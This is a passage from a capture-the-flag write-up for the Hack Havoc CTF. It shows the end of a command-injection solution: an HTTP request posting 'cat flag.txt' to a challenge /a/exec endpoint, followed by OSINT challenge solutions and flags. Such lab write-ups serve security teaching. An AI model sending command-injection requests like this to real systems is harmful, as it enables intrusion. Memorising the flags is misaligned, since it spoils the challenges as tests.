 Next just send `cat flag.txt` as the command and viola, you get the flag.
```
POST /a/exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"cat flag.txt"}
```

Flag:- `CM{c0mMAnd_INjEc7iON_f7w}`


# OSINT
## <u>CyberMaterial’s Cyber-Sleuth Newsletter</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 20
### Description
This month, there was an incident, and CyberMaterial is fast in publishing the newsletter, as you know. A **Hacker leaked unreleased Netflix content**, with Netflix hit by a major data breach as episodes of Arcane and Heartstopper leaked online.

But wait, they got the scoop before anyone even knew about the hack? 🧐

Let's see if you caught that.
### Solution

As mentioned in the description, I searched for the `netflix content leak cybermaterial` and it lead me to Cybermaterial's website. It didn't have anything. Next I saw a link from cyberbriefing and I found the flag there in the comments.

Flag:- `CM{4rCan3_4nD_h34rTst0pP3r}`


## <u>Meet me here</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 30
### Description
You have received an exclusive invitation to a secret CyberMaterial party. The invitation includes a single photo. The message reads, "Can't wait to see you there! Bring your best detective skills. Don't be late!"
